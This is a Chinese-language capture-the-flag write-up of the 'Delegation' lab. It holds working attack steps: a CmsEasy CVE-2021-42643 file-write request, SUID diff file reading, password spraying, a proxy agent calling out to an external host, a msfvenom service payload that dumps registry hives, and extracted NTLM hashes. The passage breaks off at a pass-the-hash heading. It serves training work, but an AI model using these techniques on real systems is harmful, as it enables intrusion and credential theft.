---
title: "春秋云镜Delegation"
date: 2025-11-10T19:27:13+08:00
summary: "考点: cve-2021-42643 diff提权 rdp密码爆破 rdesktop远程重置过期密码 注册表提权 DFSCoerce强制域认证+非约束性委派"
url: "/posts/春秋云镜Delegation/"
categories:
  - "春秋云镜"
tags:
  - "Delegation"
draft: false
---


# 考点

- cve-2021-42643
- diff提权
- rdp密码爆破
- rdesktop远程重置过期密码
- 注册表提权
- DFSCoerce强制域认证+非约束性委派

# flag1

```bash
root@VM-16-12-ubuntu:/opt# ./fscan -h 39.99.224.70 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
39.99.224.70:80 open
39.99.224.70:22 open
39.99.224.70:21 open
39.99.224.70:3306 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://39.99.224.70       code:200 len:68104  title:中文网页标题
已完成 3/4 [-] ftp 39.99.224.70:21 ftp ftp111 530 Login incorrect. 
已完成 3/4 [-] ftp 39.99.224.70:21 ftp 123456~a 530 Login incorrect. 
```

直接访问ip是一个cms，在源代码看到版本信息



然后搜出来一个 http://jdr2021.github.io/2021/10/14/CmsEasy_7.7.5_20211012%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E5%92%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/

## cve-2021-42643

任意文件写入POC

```bash
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 
Content-Length: 57
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded;
Cookie: login_username=admin; login_password=357fce333f91905f3e7342d10e5a5ce4;
Connection: close

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php phpinfo();?>
```

但是这个是后台漏洞，需要登录，用dirsearch扫一下目录找一下登录的接口

```bash
E:\python3.12.8\dirsearch>python dirsearch.py -u http://39.99.224.70/ -e*
E:\python3.12.8\dirsearch\lib\core\installation.py:24: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, html, htm, js, tar.gz | HTTP method: GET | Threads: 25
Wordlist size: 15046

Target: http://39.99.224.70/

[19:34:58] Scanning:
[19:34:59] 301 -   311B - /html  ->  http://39.99.224.70/html/
[19:35:03] 403 -   277B - /.php
[19:35:05] 200 -   504B - /404.php
[19:35:07] 301 -   312B - /admin  ->  http://39.99.224.70/admin/
[19:35:07] 200 -    64B - /admin/
[19:35:07] 403 -   277B - /admin/.htaccess
[19:35:07] 200 -    64B - /admin/index.php
[19:35:12] 301 -   310B - /api  ->  http://39.99.224.70/api/
[19:35:12] 200 -    1KB - /api/
[19:35:13] 200 -   737B - /apps/
[19:35:13] 301 -   311B - /apps  ->  http://39.99.224.70/apps/
[19:35:14] 301 -   312B - /cache  ->  http://39.99.224.70/cache/
[19:35:14] 200 -    1KB - /cache/
[19:35:15] 200 -     0B - /command.php
[19:35:15] 301 -   313B - /common  ->  http://39.99.224.70/common/
[19:35:15] 200 -    2KB - /common/
[19:35:15] 301 -   313B - /config  ->  http://39.99.224.70/config/
[19:35:15] 200 -    3KB - /config/
[19:35:16] 301 -   311B - /data  ->  http://39.99.224.70/data/
[19:35:16] 200 -    5KB - /data/
[19:35:17] 301 -   309B - /en  ->  http://39.99.224.70/en/
[19:35:18] 200 -    4KB - /favicon.ico
[19:35:19] 200 -   931B - /html/
[19:35:19] 301 -   313B - /images  ->  http://39.99.224.70/images/
[19:35:19] 200 -    6KB - /images/
[19:35:20] 200 -   67KB - /index.php/login/
[19:35:20] 200 -   67KB - /index.php
[19:35:20] 301 -   311B - /lang  ->  http://39.99.224.70/lang/
[19:35:21] 301 -   310B - /lib  ->  http://39.99.224.70/lib/
[19:35:21] 200 -    2KB - /lib/
[19:35:21] 301 -   314B - /license  ->  http://39.99.224.70/license/
[19:35:25] 301 -   313B - /readme  ->  http://39.99.224.70/readme/
[19:35:26] 200 -   253B - /robots.txt
[19:35:26] 403 -   277B - /server-status/
[19:35:26] 403 -   277B - /server-status
[19:35:27] 301 -   314B - /sitemap  ->  http://39.99.224.70/sitemap/
[19:35:29] 301 -   315B - /template  ->  http://39.99.224.70/template/
[19:35:29] 200 -    1KB - /template/

Task Completed
```

这个环境稍微有点问题，一开始访问admin的话是能302跳转到login页面的，但是如果访问了/template/之后再访问admin的话就没有了，需要重置靶机

访问/admin跳转到登录页面，弱口令admin/123456登录后台，然后拿poc打一下

```bash
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 39.99.227.27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://39.99.227.27/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=pbvhso9rh7hdo9156llqbcb70o; login_username=admin; login_password=a14cdfc627cef32c707a7988e70c1313
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php+phpinfo();?>
```



访问1.php发现代码成功执行



那我们写个马getshell，用蚁剑连接

提权，`sudo -l`命令没找到可用的sudo命令，看看SUID位文件

```bash
(www-data:/var/www/html) $ find / -perm -u=s -type f 2>/dev/null
/usr/bin/stapbpf
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/staprun
/usr/bin/at
/usr/bin/diff
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

## diff提权

看到一个`/usr/bin/diff`，diff提权https://gtfobins.github.io/gtfobins/diff/

```bash
diff --line-format=%L /dev/null $LFILE
```

`$FILE`就是需要读取的文件名

find找一下flag

```bash
find / -name "flag"
```



那我们读取一下

```bash
(www-data:/) $ diff --line-format=%L /dev/null "/home/flag/flag01.txt"
  ____  U _____ u  _     U _____ u   ____      _       _____             U  ___ u  _   _     
 |  _"\ \| ___"|/ |"|    \| ___"|/U /"___|uU  /"\  u  |_ " _|     ___     \/"_ \/ | \ |"|    
/| | | | |  _|" U | | u   |  _|"  \| |  _ / \/ _ \/     | |      |_"_|    | | | |<|  \| |>   
U| |_| |\| |___  \| |/__  | |___   | |_| |  / ___ \    /| |\      | | .-,_| |_| |U| |\  |u   
 |____/ u|_____|  |_____| |_____|   \____| /_/   \_\  u |_|U    U/| |\u\_)-\___/  |_| \_|    
  |||_   <<   >>  //  \\  <<   >>   _)(|_   \\    >>  _// \\_.-,_|___|_,-.  \\    ||   \\,-. 
 (__)_) (__) (__)(_")("_)(__) (__) (__)__) (__)  (__)(__) (__)\_)-' '-(_/  (__)   (_")  (_/  
flag01: flag{addcf72a-1b43-463d-929d-1758456dee89}
Great job!!!!!!
Here is the hint: WIN19\Adrian
I'll do whatever I can to rock you...
```

拿到一个hint`WIN19\Adrian`

# 内网穿透

在tmp目录下上传fscan和stowaway，记得给权限

查看ip

```bash
(www-data:/tmp) $ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.4.36  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe05:aae4  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:05:aa:e4  txqueuelen 1000  (Ethernet)
        RX packets 101914  bytes 143781925 (143.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26086  bytes 6020396 (6.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 826  bytes 76512 (76.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 826  bytes 76512 (76.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

fscan进行扫描

## fscan内网扫描

```bash
./fscan -h 172.22.4.0/24
```

在result.txt中拿到内容

```bash
172.22.4.36:3306 open
172.22.4.45:445 open
172.22.4.19:445 open
172.22.4.7:445 open
172.22.4.45:139 open
172.22.4.45:135 open
172.22.4.19:139 open
172.22.4.7:139 open
172.22.4.19:135 open
172.22.4.7:135 open
172.22.4.45:80 open
172.22.4.36:80 open
172.22.4.7:88 open
172.22.4.36:21 open
172.22.4.36:22 open
[*] NetInfo 
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetBios 172.22.4.45     XIAORANG\WIN19                
[*] NetBios 172.22.4.7      [+] DC:DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] NetInfo 
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] NetInfo 
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] OsInfo 172.22.4.7	(Windows Server 2016 Datacenter 14393)
[*] NetBios 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
[*] WebTitle http://172.22.4.36        code:200 len:68100  title:中文网页标题
[*] WebTitle http://172.22.4.45        code:200 len:703    title:IIS Windows Server

```

- 172.22.4.36 已经拿下
- 172.22.4.45 XIAORANG\WIN19 一个web服务器IIS Windows Server
- 172.22.4.19 FILESERVER.xiaorang.lab
- 172.22.4.7 DC:DC01.xiaorang.lab

## 搭建代理

然后我们搭建代理

```bash
./linux_x64_admin -l 2334 -s 123

./linux_x64_agent -c 124.223.25.186:2334 -s 123 --reconnect 8

use 0
socks 3333

sudo vim /etc/proxychains4.conf
```

# flag2

先打web服务器172.22.4.45，访问看到是IIS Windows Server



还记得之前flag1给的hint吗？`WIN19\Adrian`，估计是机器的账号，我们扫端口看看3389是否开放



是开放的，然后我们需要爆破密码

## 密码喷洒

```bash
proxychains4 crackmapexec smb 172.22.4.45 -u Adrian -p rockyou.txt -d WIN19
```

得到babygirl1这个过期的密码

```bash
WIN19\Adrian:babygirl1
```



用impacket-changepasswd修改密码试一下

```bash
┌──(root㉿kali)-[/]
└─# proxychains4 impacket-changepasswd WIN19\Adrian:'babygirl1'@172.22.4.45 -newpass 'Whoami@666'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of Builtin\WIN19Adrian
[*] Connecting to DCE/RPC as Builtin\WIN19Adrian
[proxychains] Strict chain  ...  124.223.25.186:3333  ...  172.22.4.45:445  ...  OK
[-] Authentication failure when connecting to RPC: wrong credentials?
```

没法修改密码

## rdesktop远程重置过期密码

可以远程重置过期密码https://forum.butian.net/share/865，用kali下的rdesktop连上去改密码

```bash
proxychains rdesktop 172.22.4.45

WIN19\Adrian
whoami@666!
```



但是此时的权限还是比较低，不过在桌面发现了一个文件夹



在html中看到



```bash
Name              : gupdate
ImagePath         : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
User              : LocalSystem	//服务以 SYSTEM 权限运行
ModifiablePath    : HKLM\SYSTEM\CurrentControlSet\Services\gupdate
IdentityReference : BUILTIN\Users	//普通用户有权限修改该服务
Permissions       : WriteDAC, Notify, ReadControl, CreateLink, EnumerateSubKeys, WriteOwner, Delete, CreateSubKey, SetV
                    alue, QueryValue
Status            : Stopped
UserCanStart      : True
UserCanStop       : True


```

意思就是谷歌更新这个服务是可以用来进行注册表提权的

## 注册表提权

查看注册表对可执行文件的权限设置

```bash
Get-Acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *
```



可以看到该管理员具有完全访问和控制权限

```bash
PS C:\Users\Adrian> whoami /groups

组信息
-----------------

组名                                   类型   SID          属性
====================================== ====== ============ ==============================
Everyone                               已知组 S-1-1-0      必需的组, 启用于默认, 启用的组
BUILTIN\Remote Desktop Users           别名   S-1-5-32-555 必需的组, 启用于默认, 启用的组
BUILTIN\Users                          别名   S-1-5-32-545 必需的组, 启用于默认, 启用的组
NT AUTHORITY\REMOTE INTERACTIVE LOGON  已知组 S-1-5-14     必需的组, 启用于默认, 启用的组
NT AUTHORITY\INTERACTIVE               已知组 S-1-5-4      必需的组, 启用于默认, 启用的组
NT AUTHORITY\Authenticated Users       已知组 S-1-5-11     必需的组, 启用于默认, 启用的组
NT AUTHORITY\This Organization         已知组 S-1-5-15     必需的组, 启用于默认, 启用的组
NT AUTHORITY\本地帐户                  已知组 S-1-5-113    必需的组, 启用于默认, 启用的组
LOCAL                                  已知组 S-1-2-0      必需的组, 启用于默认, 启用的组
NT AUTHORITY\NTLM Authentication       已知组 S-1-5-64-10  必需的组, 启用于默认, 启用的组
Mandatory Label\Medium Mandatory Level 标签   S-1-16-8192
```

并且当前用户确实是在这个用户组里面的，那我们尝试做注册表提权

我们写一个sam的bat文件

```bash
reg save hklm\system C:\Users\Adrian\Desktop\system
reg save hklm\sam C:\Users\Adrian\Desktop\sam
reg save hklm\security C:\Users\Adrian\Desktop\security
```

分别把SYSTEM注册表、SAM注册表、security注册表备份到桌面

用msfvenom生成执行一个可执行文件

```bash
msfvenom -p windows/x64/exec cmd='C:\windows\system32\cmd.exe /c C:\users\Adrian\Desktop\sam.bat ' --platform windows -f exe-service > a.exe
```

将sam.bat和a.exe全部复制到rdp桌面

然后powershell修改注册表服务，将谷歌更新的注册表改成可执行文件

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Adrian\Desktop\a.exe" /f
```

接着在cmd启动服务

```bash
sc start gupdate
```



此时可以看到桌面上确实多出了三个注册表文件

我们传到kali用secretsdump解一下

secretsdump能从sam中提取NTLM密码哈希

```bash
impacket-secretsdump LOCAL -sam sam -security security -system system
```



```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba21c629d9fd56aff10c3e826323e6ab:::
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:70bd6ca4757764af74b9ef7a70087e15
```

既然拿到哈希了那就直接哈希传递吧

## PTH哈希传递

```bash
